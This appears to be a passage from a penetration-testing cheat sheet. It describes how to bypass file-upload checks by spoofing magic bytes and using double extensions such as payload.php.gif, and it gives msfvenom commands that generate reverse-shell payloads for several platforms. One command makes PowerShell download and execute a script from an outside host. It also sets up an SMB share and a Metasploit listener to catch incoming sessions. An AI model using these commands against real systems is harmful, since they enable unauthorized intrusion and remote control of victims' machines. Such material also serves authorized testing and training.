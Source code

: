 ### Spoofing Magic Bytes
Capture an "Upload" of a .gif for instance with burpsuite. Keep the first bunch of bytes and then replace the rest with your shell.

If the website is checking file extensions, try to add the extension somewhere as follows:
* payload.gif.php
* payload.php.gif

### MSFVenom Basic Payloads
```bash
# Linux
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<LHOST> LPORT=<PORT> -f elf > ./exploit.elf

# Windows
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LHOST> LPORT=<PORT> -f exe > ./exploit.exe

# PHP
msfvenom -p php/meterpreter_reverse_tcp LHOST=<LHOST> LPORT=<PORT> -f raw > ./exploit.php

# Python
msfvenom -p cmd/unix/reverse_python LHOST=<LHOST> LPORT=<PORT> -f raw > ./exploit.py

# Bash
msfvenom -p cmd/unix/reverse_bash LHOST=<LHOST> LPORT=<PORT> -f raw > ./exploit.sh

# Execute a single command (download and load a shell)
msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://10.10.14.30/test.ps1')\""

# View all shellcode formats
msfvenom –help-formats
msfvenom --list payloads

```

### Setting up and accessing SMB share on kali
```bash
# unauthenticated
smbserver.py -smb2support share ./

# authenticated
smbserver.py -smb2support shareName /path/to/location -username guest -password guest 

```

### Metasploit auxiliary liistener Payloads
```bash
msf6> use multi/handler
# SET PAYLOAD AND OTHER SETTINGS
run -j
sessions # view sessions
sessions 1 # go to session
sessions -K # kill all
```
